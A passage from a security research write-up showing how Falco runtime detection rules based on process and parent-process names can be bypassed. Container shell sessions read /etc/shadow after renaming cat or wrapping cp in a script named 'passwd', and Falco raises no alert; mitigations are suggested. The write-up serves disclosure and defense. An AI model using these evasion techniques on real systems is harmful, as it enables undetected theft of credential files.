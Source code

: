 Finally, if the attacker has permission to rename or copy the binary at question then they can simply rename or copy it to one of the excepted binaries:
```
[Container]
$ docker run --rm -it debian:10.2 bash
root@a212547db36c:/# cp /bin/cat /tmp/systemd-logind
root@a212547db36c:/# /tmp/systemd-logind /etc/shadow
root:*:18291:0:99999:7:::
...
-----
[Falco]
SILENCE
```

These three sub-techniques give an attacker a powerful bypass for the rules that rely on _proc.name_ comparison.

<ins>Rules bypassed:</ins> All rules that rely on _proc.name_ comparison.

<ins>Suggested mitigations:</ins> Less reliance on _proc.name_.

### <a name="naming"></a>Bypass rules via parent / ancestor executable naming

A similar bypass can be done through the manipulation of the current process parents. Let us consider the same **Read sensitive file untrusted** rule again. One of the conditions for exception checks that this suspicious action is not performed by the _passwd_ command copying the sensitive file:

```
- macro: cmp_cp_by_passwd
  condition: proc.name in (cmp, cp) and proc.pname in (passwd, run-parts)
```

This gives us an idea to use _cp_ to copy the sensitive file while ensuring the parent process is called "passwd". This can be easily done by creating a simple bash script performing the necessary commands for us and naming it "passwd":

```
[Container]
$ sudo docker run -it sshayb/fuber:latest bash
root@7c8c49e59890:/tmp# cat passwd 
#!/bin/bash
cp /etc/shadow shadow-copy
root@7c8c49e59890:/tmp# chmod +x passwd
root@7c8c49e59890:/tmp# ./passwd 
root@7c8c49e59890:/tmp# ls
docker  fubers  gbash  gdocker  gkubectl  passwd  runc-nsenter  shadow-copy
root@7c8c49e59890:/tmp# cat shadow-copy
root:*:18759:0:99999:7:::
...
-----
[Falco]
SILENCE
```

In addition, _proc.aname_ construct can also be used for bypasses with _proc.aname[1]_ containing a parent process name, _proc.aname[2]_ containing a grandfather process name and so on. To make the process of bypassing easy we created a small utility that forks the process a necessary number of times and changes the process name at the required level. To bypass the same **Read sensitive file untrusted** we can use any of the handy exception conditions that check one of the ancestor names. For example, macro _run\_by\_google\_accounts\_daemon_:


[^1]: https://man7.org/linux/man-pages/man2/dup2.2.html
[^2]: https://hub.docker.com/repository/docker/sshayb/fuber
[^3]: https://github.com/worawit/CVE-2021-3156/blob/main/exploit_nss.py
[^4]: https://sysdig.com/blog/cve-2021-3156-sudo-falco/
[^5]: https://falco.org/docs/rules/supported-fields/
[^6]: https://braiins.com/stratum-v2
[^7]: https://github.com/draios/sysdig/pull/655/commits/209888d7f37c4357b164ca12248a38bac9de2e4b
[^8]: https://www.youtube.com/watch?v=rBqBrYESryY
[^9]: https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS